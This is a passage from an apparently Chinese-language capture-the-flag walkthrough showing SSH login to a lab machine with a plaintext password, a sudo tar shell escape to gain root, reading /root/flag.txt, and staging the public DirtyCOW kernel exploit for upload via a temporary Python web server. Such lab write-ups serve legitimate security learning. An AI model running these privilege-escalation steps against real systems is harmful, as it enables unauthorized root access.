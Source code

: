 在kali终端进行登录

```
ssh zico@192.168.81.142
密码为：sWfCsfJSPV9H3AmQzw8
```

![image-20220316094940334](https://gitee.com/xxb667/img/raw/master/img/image-20220316094940334.png)

发现用户具备sudo权限

```
sudo -l
```

![image-20220316095104548](https://gitee.com/xxb667/img/raw/master/img/image-20220316095104548.png)

使用tar提权，获得root权限，获得flag文件

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image-20220316095317819](https://gitee.com/xxb667/img/raw/master/img/image-20220316095317819.png)

查找flag.txt文件

```
find / -name flag.txt
```

```
/root/flag.txt
```

![image-20220316095830631](https://gitee.com/xxb667/img/raw/master/img/image-20220316095830631.png)

打开flag.txt文件

```
cat /root/flag.txt
```

![image-20220316100027997](https://gitee.com/xxb667/img/raw/master/img/image-20220316100027997.png)



## 4.2-2 把payload上传到目标机器

下载dirty.c文件

```
https://github.com/FireFart/dirtycow/archive/refs/heads/master.zip
```

然后把文件复制到kali里面

#### 开启临时服务器

- 将40838.c文件复制到当前目录下
- 并且利用 python2 -m SimpleHTTPServer 1234 
- 开启临时的建议服务器
